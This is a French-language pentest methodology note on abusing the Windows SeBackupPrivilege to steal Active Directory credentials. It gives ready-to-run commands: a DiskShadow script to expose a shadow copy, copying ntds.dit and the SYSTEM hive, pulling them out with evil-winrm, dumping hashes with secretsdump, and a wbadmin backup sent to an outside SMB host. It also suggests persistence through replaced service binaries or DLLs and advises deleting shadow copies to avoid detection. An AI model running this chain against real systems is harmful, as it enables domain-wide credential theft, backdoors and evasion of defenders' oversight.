

Cette documentation détaille l'exploitation du privilège **SeBackupPrivilege** pour l'exfiltration de secrets Windows, une technique courante lors des phases de **Post-Exploitation** et de **Credential Dumping** dans un environnement **Active Directory**.

## Chaîne d'attaque
La séquence suivante illustre l'utilisation de **DiskShadow** pour accéder aux fichiers protégés via le service **VSS**.



## Définition
Le privilège **SeBackupPrivilege** permet à un utilisateur d'accéder à n'importe quel fichier du système de fichiers, en contournant les ACLs, à des fins de sauvegarde. Il est généralement attribué au groupe **Backup Operators**.

## Conditions d'abus
*   L'utilisateur possède le privilège **SeBackupPrivilege**.
*   L'utilisateur n'est pas nécessairement administrateur local.
*   Nécessité d'extraire des fichiers protégés par le système, tels que `ntds.dit` ou les ruches **SAM**/**SYSTEM**.

> [!info]
> L'utilisation de **SeBackupPrivilege** permet de contourner les ACLs mais ne donne pas les droits d'administration système.

## Méthodologie d'exploitation (DiskShadow)

### Prérequis
*   **SeBackupPrivilegeCmdLets.dll**
*   **SeBackupPrivilegeUtils.dll**

### Chargement des modules
```powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
```

Vérification des commandes disponibles :
```powershell
Get-Command -Module SeBackupPrivilegeCmdLets
```

### Configuration de DiskShadow
Le fichier `vss.dsh` doit être préparé sur la machine attaquante.

```plaintext
set context persistent nowriters
set metadata c:\programdata\backup.cab
set verbose on
add volume c: alias temp
create
expose %temp% h:
```

> [!danger]
> Le fichier `vss.dsh` doit impérativement être au format DOS (CRLF), sinon **DiskShadow** échouera.

Conversion du fichier :
```bash
unix2dos vss.dsh
```

### Exécution
1. Transfert du fichier sur la cible :
```powershell
upload vss.dsh c:\programdata\vss.dsh
```

2. Lancement de **DiskShadow** :
```powershell
diskshadow /s c:\programdata\vss.dsh
```

## Extraction de secrets

Une fois le volume exposé (ex: `h:`), les fichiers sont accessibles via les cmdlets importés :

```powershell
Copy-FileSeBackupPrivilege h:\windows\ntds\ntds.dit c:\windows\temp\ntds.dit
Copy-FileSeBackupPrivilege h:\windows\system32\config\SYSTEM c:\windows\temp\SYSTEM
```

Récupération des fichiers via **evil-winrm** :
```powershell
download c:\windows\temp\ntds.dit
download c:\windows\temp\SYSTEM
```

Extraction des hashs avec **secretsdump.py** :
```bash
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

## Alternative sans DLL tierces (via Robocopy)
Il est possible d'utiliser **Robocopy** avec l'option `/B` (Backup mode) pour copier des fichiers verrouillés sans dépendre de DLLs externes, bien que cela nécessite une manipulation spécifique des permissions.

```powershell
robocopy /B C:\Windows\NTDS . ntds.dit
robocopy /B C:\Windows\System32\config . SYSTEM
```

## Alternative (wbadmin)
L'utilisation de **wbadmin** permet de créer une sauvegarde complète du volume.

```powershell
wbadmin start backup -backupTarget:\\10.10.14.3\smb -include:C: -quiet
```

> [!warning]
> L'utilisation de **wbadmin** peut générer un trafic réseau important et des alertes de sauvegarde sur le contrôleur de domaine.

Montage du fichier `.vhdx` sur l'hôte attaquant :
```bash
guestmount -a *.vhdx -i --ro /mnt/vhd
ls /mnt/vhd/Windows/NTDS/
```

## Risques de corruption du système
L'interaction avec le service **VSS** et la manipulation directe des fichiers de base de données **NTDS** peut entraîner des instabilités si le système est sous forte charge.
*   **Corruption de base de données** : Une copie brute pendant une opération d'écriture peut rendre le fichier `ntds.dit` inutilisable.
*   **Instabilité VSS** : L'oubli de suppression des clichés peut saturer l'espace disque alloué aux copies instantanées, provoquant l'arrêt des services de sauvegarde légitimes.

## Techniques de persistence associées
L'accès au privilège **SeBackupPrivilege** permet d'installer des backdoors persistantes :
*   **Modification de services** : Utiliser le privilège pour écraser l'exécutable d'un service légitime par un binaire malveillant.
*   **Injection de DLL** : Remplacer des DLLs système chargées par des processus privilégiés.
*   **Modification des fichiers de configuration** : Injecter des scripts dans les répertoires de démarrage ou modifier les stratégies de groupe locales (`GPO`).

## Gestion des traces (logs d'événements)
L'exploitation génère des traces dans les logs Windows qu'il convient de surveiller ou de nettoyer :
*   **Event ID 7036** : Service VSS démarré/arrêté.
*   **Event ID 8224** : Création d'un cliché instantané par **DiskShadow**.
*   **Event ID 4663** : Accès aux objets (si l'audit d'accès aux objets est activé).

## Nettoyage
Il est nécessaire de supprimer les clichés instantanés créés pour éviter la détection et libérer l'espace disque.

```plaintext
set context persistent nowriters
delete shadows volume temp
reset
```

> [!warning]
> Le nettoyage des shadows copies est crucial pour éviter de laisser des traces persistantes sur le disque cible.

## Outils
*   **SeBackupPrivilege** (DLLs)
*   **DiskShadow** (intégré à Windows)
*   **secretsdump.py** (**Impacket** Suite)
*   **evil-winrm**

## Détection
Vérification des privilèges et appartenance aux groupes :

```powershell
whoami /priv | findstr Backup
whoami /groups
```

Les sujets liés incluent **Active Directory Enumeration**, **Credential Dumping**, **Windows Privilege Escalation** et **Impacket Suite Usage**.